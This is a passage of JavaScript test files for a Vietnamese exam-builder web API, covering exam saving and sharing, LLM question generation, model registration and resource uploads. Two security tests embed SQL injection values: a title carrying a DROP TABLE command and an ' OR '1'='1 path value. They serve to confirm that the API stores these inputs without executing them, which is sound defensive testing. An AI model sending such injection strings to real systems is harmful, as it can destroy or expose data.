      expect(res.body.details[0]).toMatch(/correct_answer khong khop/);
    });

    test('TC-API-10d [Da sua]: difficulty_level ngoai enum (NB/TH/VD/VDC) bi tu choi o tang API (400)', async () => {
      const badPayload = validExamPayload({
        blocks: [{ block_type: 'ESSAY', questions: [{ question_type: 'ESSAY', content: 'x', difficulty_level: 'SIEU_KHO' }] }]
      });
      const res = await request(buildApp()).post('/api/exams/save').send(badPayload);
      expect(res.status).toBe(400);
      expect(res.body.details[0]).toMatch(/difficulty_level khong hop le/);
    });

    test('TC-API-11 [Security] SQL Injection: chuoi gia SQLi trong title duoc luu/doc lai nguyen van, khong thuc thi', async () => {
      const maliciousTitle = "Robert'); DROP TABLE EXAM;--";
      const res = await request(buildApp())
        .post('/api/exams/save')
        .send(validExamPayload({ title: maliciousTitle }));
      expect(res.status).toBe(200);

      const getRes = await request(buildApp()).get(`/api/exams/${res.body.exam_id}`);
      expect(getRes.body.exam.title).toBe(maliciousTitle); // luu nguyen van, khong bi thuc thi nhu lenh SQL

      const db = await getDb();
      const tables = await db.all("SELECT name FROM sqlite_master WHERE type='table'");
      expect(tables.map(t => t.name)).toContain('EXAM'); // bang EXAM van con nguyen
    });

    test('TC-API-12 [Security] XSS payload: noi dung duoc luu/tra ve nguyen van (escape la trach nhiem cua frontend)', async () => {
      const xssContent = '';
      const payload = validExamPayload({
        blocks: [{
          block_type: 'MULTIPLE_CHOICE',
          questions: [{
            question_type: 'MCQ',
            content: xssContent,
            options: [{ option_key: 'A', option_text: '1' }, { option_key: 'B', option_text: '2' }]
          }]
        }]
      });
      const res = await request(buildApp()).post('/api/exams/save').send(payload);
      const getRes = await request(buildApp()).get(`/api/exams/${res.body.exam_id}`);
      expect(getRes.body.exam.blocks[0].questions[0].content).toBe(xssContent);
      // Ghi chu: dung nhu thiet ke - API la tang luu tru du lieu thuan tuy,
      // khong sanitize HTML. frontend/script.js hien thi noi dung cau hoi
      // bang `element.textContent` (khong dung innerHTML) nen an toan XSS
      // o tang render; day chi la test xac nhan tang API khong lam sai lech
      // du lieu goc.
    });
  });

  describe('Exception Handling', () => {
    test('TC-API-13 [Da sua]: JSON body loi cu phap duoc tra ve 400 dung dinh dang JSON {success:false,error} dong nhat voi cac loi khac', async () => {
      // Truoc khi sua gap #6: loi nay den tu body-parser cua Express (nem
      // SyntaxError truoc khi vao duoc route handler), khong di qua khoi
      // try/catch cua route nen tra ve trang loi HTML mac dinh thay vi JSON.
      // Sau khi them backend/errorHandler.js lam middleware loi toan cuc,
      // response nay gio dong nhat voi moi loi nghiep vu khac.
      const res = await request(buildApp())
        .post('/api/exams/save')
        .set('Content-Type', 'application/json')
        .send('{ "title": bad json ');
      expect(res.status).toBe(400);
      expect(res.headers['content-type']).toMatch(/json/);
      expect(res.body).toEqual({ success: false, error: expect.any(String) });
    });

    test('TC-API-14: loi CSDL giua giao dich (mock db.run reject) duoc bat, tra ve 500 va ROLLBACK, khong lam sap server', async () => {
      const db = await getDb();
      const originalRun = db.run.bind(db);
      let callCount = 0;
      const runSpy = jest.spyOn(db, 'run').mockImplementation((...args) => {
        callCount += 1;
        // Thu tu db.run() thuc te trong route: (1) INSERT EXAM, (2) INSERT
        // QUESTION_BLOCK, (3) INSERT QUESTION, (4) INSERT QUESTION_OPTION dau
        // tien. Cho 3 lenh dau thanh cong, that bai ngay o lenh thu 4 de mo
        // phong loi CSDL xay ra giua chung giao dich.
        if (callCount === 4) return Promise.reject(new Error('SIMULATED_DB_FAILURE'));
        return originalRun(...args);
      });

      const res = await request(buildApp()).post('/api/exams/save').send(validExamPayload());
      expect(res.status).toBe(500);
      expect(res.body.success).toBe(false);

      runSpy.mockRestore();
      const rows = await db.all('SELECT * FROM EXAM');
      expect(rows).toHaveLength(0); // ROLLBACK don sach du lieu mo cuc
    });
  });
});

describe('GET /api/exams/:exam_id', () => {
  test('TC-API-15 [Happy]: lay lai de da luu, cau truc long nhau blocks/questions/options day du va dung thu tu', async () => {
    const saveRes = await request(buildApp()).post('/api/exams/save').send(validExamPayload());
    const getRes = await request(buildApp()).get(`/api/exams/${saveRes.body.exam_id}`);

    expect(getRes.status).toBe(200);
    expect(getRes.body.exam.blocks).toHaveLength(2);
    expect(getRes.body.exam.blocks[0].block_type).toBe('MULTIPLE_CHOICE');
    expect(getRes.body.exam.blocks[0].questions[0].options).toHaveLength(2);
    expect(getRes.body.exam.blocks[1].block_type).toBe('ESSAY');
  });

  test('TC-API-16 [Edge]: cau hoi tu luan (khong co options) tra ve options la mang rong, khong phai null/undefined', async () => {
    const saveRes = await request(buildApp())
      .post('/api/exams/save')
      .send(validExamPayload({ blocks: [validEssayBlock] }));
    const getRes = await request(buildApp()).get(`/api/exams/${saveRes.body.exam_id}`);
    expect(getRes.body.exam.blocks[0].questions[0].options).toEqual([]);
  });

  test('TC-API-17 [Negative]: exam_id dung dinh dang nhung khong ton tai tra ve 404', async () => {
    const res = await request(buildApp()).get('/api/exams/00000000-0000-0000-0000-000000000000');
    expect(res.status).toBe(404);
    expect(res.body.success).toBe(false);
  });

  test('TC-API-18 [Security] exam_id chua ky tu la (path traversal / SQLi) khong gay crash, tra ve 404 an toan', async () => {
    const res = await request(buildApp()).get('/api/exams/' + encodeURIComponent("1' OR '1'='1"));
    expect(res.status).toBe(404);
  });

  test('TC-API-19 [Exception]: loi doc CSDL (mock db.get reject) tra ve 500, khong lam sap server', async () => {
    const db = await getDb();
    const getSpy = jest.spyOn(db, 'get').mockRejectedValue(new Error('SIMULATED_DB_READ_FAILURE'));
    const res = await request(buildApp()).get('/api/exams/any-id');
    expect(res.status).toBe(500);
    getSpy.mockRestore();
  });
});

describe('POST /api/exams/share', () => {
  async function saveSampleExam() {
    const res = await request(buildApp()).post('/api/exams/save').send(validExamPayload());
    return res.body.exam_id;
  }

  test('TC-API-20 [Happy]: tao link chia se khong co han (expires_in_days khong truyen) -> is_active=1, expires_at=null', async () => {
    const examId = await saveSampleExam();
    const res = await request(buildApp()).post('/api/exams/share').send({ exam_id: examId });
    expect(res.status).toBe(200);
    expect(res.body.share_code).toMatch(/^[0-9a-f]{8}$/);

    const db = await getDb();
    const row = await db.get('SELECT * FROM EXAM_SHARE WHERE share_code = ?', [res.body.share_code]);
    expect(row.is_active).toBe(1);
    expect(row.expires_at).toBeNull();
  });

  test('TC-API-21 [Happy]: tao link chia se co han 7 ngay -> expires_at ~ 7 ngay sau', async () => {
    const examId = await saveSampleExam();
    const res = await request(buildApp()).post('/api/exams/share').send({ exam_id: examId, expires_in_days: 7 });
    const db = await getDb();
    const row = await db.get('SELECT * FROM EXAM_SHARE WHERE share_code = ?', [res.body.share_code]);
    const diffDays = (new Date(row.expires_at).getTime() - Date.now()) / 86400000;
    expect(diffDays).toBeGreaterThan(6.9);
    expect(diffDays).toBeLessThan(7.1);
  });

  test('TC-API-22 [Da sua][Edge]: expires_in_days = 0 duoc hieu la "het han ngay lap tuc", khong con bi coi la khong gioi han', async () => {
    // Truoc khi sua gap #4: `expires_in_days ? ... : null` dung kiem tra
    // truthy nen expires_in_days = 0 bi hieu nham thanh "khong truyen" (het
    // han = null). Sau khi doi sang so sanh voi undefined/null, gia tri 0
    // duoc tinh thanh mot moc thoi gian that (xap xi hien tai).
    const examId = await saveSampleExam();
    const res = await request(buildApp()).post('/api/exams/share').send({ exam_id: examId, expires_in_days: 0 });
    const db = await getDb();
    const row = await db.get('SELECT * FROM EXAM_SHARE WHERE share_code = ?', [res.body.share_code]);
    expect(row.expires_at).not.toBeNull();
    expect(Math.abs(new Date(row.expires_at).getTime() - Date.now())).toBeLessThan(5000);
  });

  test('TC-API-23 [Negative]: chia se voi exam_id khong ton tai tra ve 404', async () => {
    const res = await request(buildApp()).post('/api/exams/share').send({ exam_id: 'khong-ton-tai' });
    expect(res.status).toBe(404);
    expect(res.body.success).toBe(false);
  });

  test('TC-API-24 [Negative]: thieu exam_id trong body khong lam crash, tra ve 404 an toan', async () => {
    const res = await request(buildApp()).post('/api/exams/share').send({});
    expect(res.status).toBe(404);
  });

  test('TC-API-25 [Exception]: loi CSDL khi tao share (mock db.run reject) tra ve 500', async () => {
    const examId = await saveSampleExam();
    const db = await getDb();
    const runSpy = jest.spyOn(db, 'run').mockRejectedValue(new Error('SIMULATED_DB_FAILURE'));
    const res = await request(buildApp()).post('/api/exams/share').send({ exam_id: examId });
    expect(res.status).toBe(500);
    runSpy.mockRestore();
  });
});

describe('DELETE /api/exams/share/:share_code', () => {
  // Endpoint them de sua gap #5: truoc day EXAM_SHARE.is_active ton tai
  // trong schema nhung khong co API nao dat lai ve 0, nen 1 link da tao la
  // vinh vien (tru khi co expires_in_days). Endpoint nay cho phep giao vien
  // thu hoi (vo hieu hoa) mot link da chia se.
  async function saveAndShare() {
    const saveRes = await request(buildApp()).post('/api/exams/save').send(validExamPayload());
    const shareRes = await request(buildApp()).post('/api/exams/share').send({ exam_id: saveRes.body.exam_id });
    return shareRes.body.share_code;
  }

  test('TC-API-31 [Happy]: thu hoi link hop le tra ve 200, va link do khong con mo duoc nua', async () => {
    const shareCode = await saveAndShare();

    const delRes = await request(buildApp()).delete(`/api/exams/share/${shareCode}`);
    expect(delRes.status).toBe(200);
    expect(delRes.body.success).toBe(true);

    const getRes = await request(buildApp()).get(`/api/exams/shared/${shareCode}`);
    expect(getRes.status).toBe(404);
  });

  test('TC-API-32 [Negative]: thu hoi share_code khong ton tai tra ve 404', async () => {
    const res = await request(buildApp()).delete('/api/exams/share/deadbeef');
    expect(res.status).toBe(404);
    expect(res.body.success).toBe(false);
  });

  test('TC-API-33 [Exception]: loi CSDL khi thu hoi link (mock db.run reject) tra ve 500', async () => {
    const shareCode = await saveAndShare();
    const db = await getDb();
    const runSpy = jest.spyOn(db, 'run').mockRejectedValue(new Error('SIMULATED_DB_FAILURE'));
    const res = await request(buildApp()).delete(`/api/exams/share/${shareCode}`);
    expect(res.status).toBe(500);
    runSpy.mockRestore();
  });
});

describe('GET /api/exams/shared/:share_code', () => {
  async function saveAndShare(expiresInDays) {
    const saveRes = await request(buildApp()).post('/api/exams/save').send(validExamPayload());
    const shareRes = await request(buildApp())
      .post('/api/exams/share')
      .send({ exam_id: saveRes.body.exam_id, expires_in_days: expiresInDays });
    return shareRes.body.share_code;
  }

  test('TC-API-26 [Happy]: link chia se hop le, chua het han -> tra ve du lieu de thi', async () => {
    const shareCode = await saveAndShare();
    const res = await request(buildApp()).get(`/api/exams/shared/${shareCode}`);
    expect(res.status).toBe(200);
    expect(res.body.exam.blocks).toHaveLength(2);
  });

  test('TC-API-26b [Security]: link chia se hoc sinh khong tra dap an, loi giai hay is_correct', async () => {
    const shareCode = await saveAndShare();
    const res = await request(buildApp()).get(`/api/exams/shared/${shareCode}`);
    expect(res.status).toBe(200);
    expect(res.body.exam.redacted_for_student).toBe(true);
    for (const block of res.body.exam.blocks) for (const q of block.questions) {
      expect(q.correct_answer).toBeNull();
      expect(q.explanation).toBeNull();
      for (const option of q.options || []) expect(option.is_correct).toBe(false);
    }
  });

  test('TC-API-27 [Edge]: link bi vo hieu hoa (is_active=0) bi GET /shared/:code tu choi (404)', async () => {
    const shareCode = await saveAndShare();
    const db = await getDb();
    await db.run('UPDATE EXAM_SHARE SET is_active = 0 WHERE share_code = ?', [shareCode]);

    const res = await request(buildApp()).get(`/api/exams/shared/${shareCode}`);
    expect(res.status).toBe(404);
  });

  test('TC-API-28 [Negative]: share_code khong ton tai tra ve 404', async () => {
    const res = await request(buildApp()).get('/api/exams/shared/deadbeef');
    expect(res.status).toBe(404);
  });

  test('TC-API-29 [Negative]: link chia se da het han tra ve 410 Gone', async () => {
    const shareCode = await saveAndShare();
    const db = await getDb();
    const pastDate = new Date(Date.now() - 86400000).toISOString();
    await db.run('UPDATE EXAM_SHARE SET expires_at = ? WHERE share_code = ?', [pastDate, shareCode]);

    const res = await request(buildApp()).get(`/api/exams/shared/${shareCode}`);
    expect(res.status).toBe(410);
    expect(res.body.success).toBe(false);
  });

  test('TC-API-30 [Exception]: loi CSDL khi doc link chia se (mock db.get reject) tra ve 500', async () => {
    const shareCode = await saveAndShare();
    const db = await getDb();
    const getSpy = jest.spyOn(db, 'get').mockRejectedValue(new Error('SIMULATED_DB_FAILURE'));
    const res = await request(buildApp()).get(`/api/exams/shared/${shareCode}`);
    expect(res.status).toBe(500);
    getSpy.mockRestore();
  });
});

```

### FILE: tests/routes/generateRoutes.test.js

```javascript
process.env.EXAM_DB_PATH = ':memory:';

const mockGenerate = jest.fn();
const mockCreateProvider = jest.fn(() => ({ generate: mockGenerate }));
jest.mock('../../backend/llm/ProviderFactory', () => ({
  createProvider: (...args) => mockCreateProvider(...args)
}));

const crypto = require('crypto');
const express = require('express');
const request = require('supertest');
const { getDb, closeDb } = require('../../backend/database');
const generateRoutes = require('../../backend/routes/generateRoutes');
const { errorHandler } = require('../../backend/errorHandler');

function buildApp() {
  const app = express();
  app.use(express.json({ limit: '5mb' }));
  app.use('/api/generate', generateRoutes);
  app.use(errorHandler);
  return app;
}

const VALID_RAW_TEXT = `=PHAN_1=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: 2 + 2 bang bao nhieu?
A. 3
B. 4
Dap_An: B
Loi_Giai: vi 2+2=4
`;

async function insertCloudModel({ provider = 'openai', modelName = 'gpt-4o-mini' } = {}) {
  const db = await getDb();
  const modelId = crypto.randomUUID();
  await db.run(
    `INSERT INTO LLM_MODEL (model_id, display_name, source_type, provider, model_name) VALUES (?, 'Test Model', 'cloud', ?, ?)`,
    [modelId, provider, modelName]
  );
  return modelId;
}

async function insertLocalModel() {
  const db = await getDb();
  const modelId = crypto.randomUUID();
  await db.run(
    `INSERT INTO LLM_MODEL (model_id, display_name, source_type, file_path) VALUES (?, 'Local Test Model', 'local_gguf', '/fake/model.gguf')`,
    [modelId]
  );
  return modelId;
}

async function insertApiKey(provider = 'openai', apiKey = 'sk-test') {
  const db = await getDb();
  await db.run(`INSERT INTO LLM_SETTINGS (provider, api_key) VALUES (?, ?)`, [provider, apiKey]);
}

async function insertSection(content) {
  const db = await getDb();
  const docId = crypto.randomUUID();
  const sectionId = crypto.randomUUID();
  await db.run(`INSERT INTO RESOURCE_DOCUMENT (doc_id, title) VALUES (?, 'Doc')`, [docId]);
  await db.run(
    `INSERT INTO RESOURCE_SECTION (section_id, doc_id, section_title, content) VALUES (?, ?, 'Section', ?)`,
    [sectionId, docId, content]
  );
  return sectionId;
}

let consoleErrorSpy;
beforeAll(() => { consoleErrorSpy = jest.spyOn(console, 'error').mockImplementation(() => {}); });
afterAll(() => { consoleErrorSpy.mockRestore(); });

beforeEach(() => {
  mockGenerate.mockReset();
  mockCreateProvider.mockClear();
  mockCreateProvider.mockImplementation(() => ({ generate: mockGenerate }));
});
afterEach(async () => { await closeDb(); });

describe('POST /api/generate', () => {
  describe('Happy Path', () => {
    test('TC-GEN-01: model cloud voi key hop le, LLM tra dung dinh dang -> 200 kem blocks da parse', async () => {
      const modelId = await insertCloudModel();
      await insertApiKey('openai', 'sk-real-key');
      mockGenerate.mockResolvedValue(VALID_RAW_TEXT);

      const res = await request(buildApp()).post('/api/generate').send({
        model_id: modelId, question_spec: [{ loai: 'TN', muc_do: 'Nhan_Biet', so_luong: 1 }]
      });

      expect(res.status).toBe(200);
      expect(res.body.success).toBe(true);
      expect(res.body.blocks).toHaveLength(1);
      expect(res.body.blocks[0].questions[0].content).toContain('2 + 2');
      expect(mockCreateProvider).toHaveBeenCalledWith(expect.objectContaining({ model_id: modelId }), 'sk-real-key');
    });

    test('TC-GEN-02: model local_gguf khong can API key -> 200', async () => {
      const modelId = await insertLocalModel();
      mockGenerate.mockResolvedValue(VALID_RAW_TEXT);

      const res = await request(buildApp()).post('/api/generate').send({ model_id: modelId });
      expect(res.status).toBe(200);
      expect(mockCreateProvider).toHaveBeenCalledWith(expect.objectContaining({ model_id: modelId }), null);
    });

    test('TC-GEN-03: LLM tra sai dinh dang lan dau, dung o lan thu lai thu 2 -> 200, generate duoc goi 2 lan', async () => {
      const modelId = await insertCloudModel();
      await insertApiKey();
      mockGenerate
        .mockResolvedValueOnce('noi dung khong dung dinh dang gi ca')
        .mockResolvedValueOnce(VALID_RAW_TEXT);

      const res = await request(buildApp()).post('/api/generate').send({ model_id: modelId });
      expect(res.status).toBe(200);
      expect(mockGenerate).toHaveBeenCalledTimes(2);
      // Lan goi thu 2 phai kem thong bao loi cua lan truoc de LLM tu sua.
      expect(mockGenerate.mock.calls[1][0]).toMatch(/SAI ĐỊNH DẠNG/);
    });

    test('TC-GEN-04: section_ids duoc chon se dua noi dung section vao prompt gui cho LLM', async () => {
      const modelId = await insertCloudModel();
      await insertApiKey();
      const sectionId = await insertSection('Noi dung chuong 1 ve so nguyen');
      mockGenerate.mockResolvedValue(VALID_RAW_TEXT);

      await request(buildApp()).post('/api/generate').send({ model_id: modelId, section_ids: [sectionId] });
      expect(mockGenerate.mock.calls[0][0]).toContain('Noi dung chuong 1 ve so nguyen');
    });

    test('TC-GEN-10: extra_instructions duoc dua vao prompt gui cho LLM', async () => {
      const modelId = await insertCloudModel();
      await insertApiKey();
      mockGenerate.mockResolvedValue(VALID_RAW_TEXT);

      await request(buildApp()).post('/api/generate').send({
        model_id: modelId, extra_instructions: 'Ra de theo phong cach thi THPT Quoc gia'
      });
      expect(mockGenerate.mock.calls[0][0]).toContain('Ra de theo phong cach thi THPT Quoc gia');
    });

    test('TC-GEN-11: truyen thang provider + model_name (khong can dang ky LLM_MODEL) -> 200', async () => {
      await insertApiKey('anthropic', 'sk-ant-real');
      mockGenerate.mockResolvedValue(VALID_RAW_TEXT);

      const res = await request(buildApp()).post('/api/generate').send({
        provider: 'anthropic', model_name: 'claude-opus-5'
      });
      expect(res.status).toBe(200);
      expect(res.body.success).toBe(true);
      expect(mockCreateProvider).toHaveBeenCalledWith(
        expect.objectContaining({ source_type: 'cloud', provider: 'anthropic', model_name: 'claude-opus-5' }),
        'sk-ant-real'
      );
    });
  });

  describe('Negative Cases', () => {
    test('TC-GEN-05: thieu model_id tra ve 400', async () => {
      const res = await request(buildApp()).post('/api/generate').send({});
      expect(res.status).toBe(400);
    });

    test('TC-GEN-06: model_id khong ton tai tra ve 404', async () => {
      const res = await request(buildApp()).post('/api/generate').send({ model_id: '00000000-0000-0000-0000-000000000000' });
      expect(res.status).toBe(404);
    });

    test('TC-GEN-07: model cloud nhung chua cau hinh API key cho provider do -> 400', async () => {
      const modelId = await insertCloudModel({ provider: 'anthropic' });
      const res = await request(buildApp()).post('/api/generate').send({ model_id: modelId });
      expect(res.status).toBe(400);
      expect(res.body.error).toMatch(/API key/);
    });

    test('TC-GEN-12: truyen provider + model_name nhung chua cau hinh key -> 400', async () => {
      const res = await request(buildApp()).post('/api/generate').send({
        provider: 'openai', model_name: 'gpt-4o-mini'
      });
      expect(res.status).toBe(400);
      expect(res.body.error).toMatch(/API key/);
    });

    test('TC-GEN-13: provider khong hop le tra ve 400', async () => {
      const res = await request(buildApp()).post('/api/generate').send({
        provider: 'unknown', model_name: 'x'
      });
      expect(res.status).toBe(400);
    });

    test('TC-GEN-08: provider.generate nem loi (vd loi mang) -> 502', async () => {
      const modelId = await insertCloudModel();
      await insertApiKey();
      mockGenerate.mockRejectedValue(new Error('OpenAI: khong the ket noi'));

      const res = await request(buildApp()).post('/api/generate').send({ model_id: modelId });
      expect(res.status).toBe(502);
      expect(res.body.error).toMatch(/khong the ket noi/);
    });

    test('TC-GEN-09: LLM lien tuc tra sai dinh dang het so lan thu lai -> 422 kem chi tiet loi parse', async () => {
      const modelId = await insertCloudModel();
      await insertApiKey();
      mockGenerate.mockResolvedValue('van luon sai dinh dang');

      const res = await request(buildApp()).post('/api/generate').send({ model_id: modelId });
      expect(res.status).toBe(422);
      expect(res.body.success).toBe(false);
      expect(res.body.details).toBeTruthy();
      // Toi da 2 lan thu lai => tong 3 lan goi (1 lan dau + 2 lan retry).
      expect(mockGenerate).toHaveBeenCalledTimes(3);
    });
  });
});

```

### FILE: tests/routes/modelRoutes.test.js

```javascript
process.env.EXAM_DB_PATH = ':memory:';

const fs = require('fs');
const path = require('path');
const os = require('os');
const express = require('express');
const request = require('supertest');
const { closeDb } = require('../../backend/database');
const { errorHandler } = require('../../backend/errorHandler');

let tmpModelsDir;

function buildApp() {
  // modelRoutes doc process.env.LLM_MODELS_DIR luc module duoc require, nen
  // phai set bien moi truong TRUOC khi require lan dau trong moi test file.
  const modelRoutes = require('../../backend/routes/modelRoutes');
  const app = express();
  app.use(express.json({ limit: '5mb' }));
  app.use('/api/models', modelRoutes);
  app.use(errorHandler);
  return app;
}

beforeAll(() => {
  tmpModelsDir = fs.mkdtempSync(path.join(os.tmpdir(), 'exam-builder-models-'));
  process.env.LLM_MODELS_DIR = tmpModelsDir;
});

afterAll(() => {
  fs.rmSync(tmpModelsDir, { recursive: true, force: true });
});

afterEach(async () => { await closeDb(); });

describe('GET /api/models', () => {
  test('TC-MOD-01: chua co model nao tra ve mang rong', async () => {
    const res = await request(buildApp()).get('/api/models');
    expect(res.status).toBe(200);
    expect(res.body.models).toEqual([]);
  });
});

describe('POST /api/models/cloud', () => {
  describe('Happy Path', () => {
    test('TC-MOD-02: dang ky model cloud hop le tra ve model_id, xuat hien trong GET', async () => {
      const app = buildApp();
      const res = await request(app).post('/api/models/cloud').send({
        display_name: 'GPT-4o mini', provider: 'openai', model_name: 'gpt-4o-mini'
      });
      expect(res.status).toBe(200);
      expect(res.body.model_id).toMatch(/^[0-9a-f-]{36}$/);

      const listRes = await request(app).get('/api/models');
      expect(listRes.body.models).toHaveLength(1);
      expect(listRes.body.models[0]).toMatchObject({
        display_name: 'GPT-4o mini', source_type: 'cloud', provider: 'openai', model_name: 'gpt-4o-mini'
      });
    });
  });

  describe('Negative Cases', () => {
    test('TC-MOD-03: thieu display_name tra ve 400', async () => {
      const res = await request(buildApp()).post('/api/models/cloud').send({ provider: 'openai', model_name: 'x' });
      expect(res.status).toBe(400);
    });

    test('TC-MOD-04: provider khong hop le tra ve 400', async () => {
      const res = await request(buildApp()).post('/api/models/cloud').send({
        display_name: 'X', provider: 'unknown', model_name: 'x'
      });
      expect(res.status).toBe(400);
    });

    test('TC-MOD-05: thieu model_name tra ve 400', async () => {
      const res = await request(buildApp()).post('/api/models/cloud').send({ display_name: 'X', provider: 'openai' });
      expect(res.status).toBe(400);
    });
  });
});

describe('POST /api/models/local', () => {
  describe('Happy Path', () => {
    test('TC-MOD-06: upload file .gguf hop le luu vao dia va ghi DB', async () => {
      const app = buildApp();
      const res = await request(app)
        .post('/api/models/local')
        .attach('model_file', Buffer.from('fake gguf content'), 'my-model.gguf')
        .field('display_name', 'Llama Test');

      expect(res.status).toBe(200);
      expect(res.body.model_id).toMatch(/^[0-9a-f-]{36}$/);

      const listRes = await request(app).get('/api/models');
      const model = listRes.body.models.find(m => m.model_id === res.body.model_id);
      expect(model.source_type).toBe('local_gguf');
      expect(model.display_name).toBe('Llama Test');
      expect(model.file_size).toBeGreaterThan(0);

      const filesOnDisk = fs.readdirSync(tmpModelsDir);
      expect(filesOnDisk.some(f => f.endsWith('.gguf'))).toBe(true);
    });

    test('TC-MOD-07: khong truyen display_name se dung ten file goc', async () => {
      const app = buildApp();
      const res = await request(app)
        .post('/api/models/local')
        .attach('model_file', Buffer.from('x'), 'raw-name.gguf');

      const listRes = await request(app).get('/api/models');
      const model = listRes.body.models.find(m => m.model_id === res.body.model_id);
      expect(model.display_name).toBe('raw-name.gguf');
    });
  });

  describe('Negative Cases', () => {
    test('TC-MOD-08: khong dinh kem file tra ve 400', async () => {
      const res = await request(buildApp()).post('/api/models/local').send();
      expect(res.status).toBe(400);
    });

    test('TC-MOD-09: file khong phai .gguf bi tu choi', async () => {
      const res = await request(buildApp())
        .post('/api/models/local')
        .attach('model_file', Buffer.from('not a model'), 'malicious.exe');
      expect(res.status).toBe(400);
    });
  });
});

describe('DELETE /api/models/:model_id', () => {
  test('TC-MOD-10: xoa model local xoa luon file tren dia', async () => {
    const app = buildApp();
    const uploadRes = await request(app)
      .post('/api/models/local')
      .attach('model_file', Buffer.from('to be deleted'), 'del-me.gguf');
    const modelId = uploadRes.body.model_id;
    const filesBefore = fs.readdirSync(tmpModelsDir);
    expect(filesBefore.length).toBeGreaterThan(0);

    const delRes = await request(app).delete(`/api/models/${modelId}`);
    expect(delRes.status).toBe(200);
    expect(delRes.body.success).toBe(true);

    const listRes = await request(app).get('/api/models');
    expect(listRes.body.models.find(m => m.model_id === modelId)).toBeUndefined();
  });

  test('TC-MOD-11: xoa model khong ton tai tra ve 404', async () => {
    const res = await request(buildApp()).delete('/api/models/00000000-0000-0000-0000-000000000000');
    expect(res.status).toBe(404);
  });
});

```

### FILE: tests/routes/resourceRoutes.test.js

```javascript
process.env.EXAM_DB_PATH = ':memory:';

// pdf-parse (pdfjs-dist ben trong) tu dong nap 1 "fake worker" qua dynamic
// import() de chay khong can Worker that - co chay dung tren Node binh thuong
// (da tu kiem chung thu cong) nhung Jest (CJS, khong bat --experimental-vm-modules)
// khong ho tro dynamic import() nen luon nem loi "Setting up fake worker failed".
// Vi vay mock pdf-parse o day, giong cach settingsRoutes.test.js/generateRoutes.test.js
// dang mock ProviderFactory thay vi goi that.
const mockGetText = jest.fn();
const mockDestroy = jest.fn().mockResolvedValue(undefined);
jest.mock('pdf-parse', () => ({
  PDFParse: jest.fn().mockImplementation(() => ({ getText: mockGetText, destroy: mockDestroy }))
}));

const express = require('express');
const request = require('supertest');
const { Document: DocxDocument, Packer, Paragraph } = require('docx');
const { closeDb } = require('../../backend/database');
const resourceRoutes = require('../../backend/routes/resourceRoutes');
const { errorHandler } = require('../../backend/errorHandler');

/**
 * Tao 1 tep .docx that (dung chinh thu vien `docx`) de lam fixture, thay vi
 * commit file nhi phan vao repo - dung quy uoc giong tests/parser/FileUploadParser.test.js.
 * Khong co van de dynamic-import nhu pdf-parse nen giu nguyen, khong mock.
 */
async function buildDocxBuffer(lines) {
  const doc = new DocxDocument({ sections: [{ children: lines.map(line => new Paragraph({ text: line })) }] });
  return Packer.toBuffer(doc);
}

function buildApp() {
  const app = express();
  app.use(express.json({ limit: '5mb' }));
  app.use('/api/resources', resourceRoutes);
  app.use(errorHandler);
  return app;
}

afterEach(async () => {
  mockGetText.mockReset();
  mockDestroy.mockClear();
  await closeDb();
});

describe('POST /api/resources', () => {
  describe('Happy Path', () => {
    test('TC-RES-01: tao tai lieu hop le tra ve doc_id', async () => {
      const res = await request(buildApp()).post('/api/resources').send({ title: 'SGK Toan 10', subject: 'Toan' });
      expect(res.status).toBe(200);
      expect(res.body.doc_id).toMatch(/^[0-9a-f-]{36}$/);
    });
  });

  describe('Negative Cases', () => {
    test('TC-RES-02: thieu title tra ve 400', async () => {
      const res = await request(buildApp()).post('/api/resources').send({ subject: 'Toan' });
      expect(res.status).toBe(400);
    });
  });
});

describe('GET /api/resources', () => {
  test('TC-RES-03: liet ke tai lieu kem danh sach section long ben trong, dung thu tu sort_order', async () => {
    const app = buildApp();
    const docRes = await request(app).post('/api/resources').send({ title: 'SGK Toan 10' });
    const docId = docRes.body.doc_id;

    await request(app).post(`/api/resources/${docId}/sections`).send({ section_title: 'Chuong 1', content: 'Noi dung 1' });
    await request(app).post(`/api/resources/${docId}/sections`).send({ section_title: 'Chuong 2', content: 'Noi dung 2' });

    const res = await request(app).get('/api/resources');
    expect(res.status).toBe(200);
    const doc = res.body.documents.find(d => d.doc_id === docId);
    expect(doc.sections).toHaveLength(2);
    expect(doc.sections.map(s => s.section_title)).toEqual(['Chuong 1', 'Chuong 2']);
  });
});

describe('POST /api/resources/:doc_id/sections', () => {
  describe('Happy Path', () => {
    test('TC-RES-04: them phan hop le tra ve section_id', async () => {
      const app = buildApp();
      const docRes = await request(app).post('/api/resources').send({ title: 'Tai lieu' });
      const res = await request(app)
        .post(`/api/resources/${docRes.body.doc_id}/sections`)
        .send({ section_title: 'Phan 1', content: 'Noi dung' });
      expect(res.status).toBe(200);
      expect(res.body.section_id).toMatch(/^[0-9a-f-]{36}$/);
    });
  });

  describe('Negative Cases', () => {
    test('TC-RES-05: doc_id khong ton tai tra ve 404', async () => {
      const res = await request(buildApp())
        .post('/api/resources/00000000-0000-0000-0000-000000000000/sections')
        .send({ section_title: 'X', content: 'Y' });
      expect(res.status).toBe(404);
    });

    test('TC-RES-06: thieu content tra ve 400', async () => {
      const app = buildApp();
      const docRes = await request(app).post('/api/resources').send({ title: 'Tai lieu' });
      const res = await request(app)
        .post(`/api/resources/${docRes.body.doc_id}/sections`)
        .send({ section_title: 'Phan 1' });
      expect(res.status).toBe(400);
    });
  });
});

describe('POST /api/resources/:doc_id/sections/upload', () => {
  describe('Happy Path', () => {
    test('TC-RES-09: upload .txt hop le tra ve section_id, noi dung dung nhu file', async () => {
      const app = buildApp();
      const docRes = await request(app).post('/api/resources').send({ title: 'Tai lieu' });
      const docId = docRes.body.doc_id;

      const res = await request(app)
        .post(`/api/resources/${docId}/sections/upload`)
        .attach('file', Buffer.from('Noi dung chuong 1 ve so nguyen'), 'chuong-1.txt');

      expect(res.status).toBe(200);
      expect(res.body.section_id).toMatch(/^[0-9a-f-]{36}$/);

      const listRes = await request(app).get('/api/resources');
      const doc = listRes.body.documents.find(d => d.doc_id === docId);
      expect(doc.sections).toHaveLength(1);
      expect(doc.sections[0].section_title).toBe('chuong-1');
    });

    test('TC-RES-10: co truyen section_title se ghi de ten mac dinh tu ten file', async () => {
      const app = buildApp();
      const docRes = await request(app).post('/api/resources').send({ title: 'Tai lieu' });
      const docId = docRes.body.doc_id;

      await request(app)
        .post(`/api/resources/${docId}/sections/upload`)
        .field('section_title', 'Ten tuy chon')
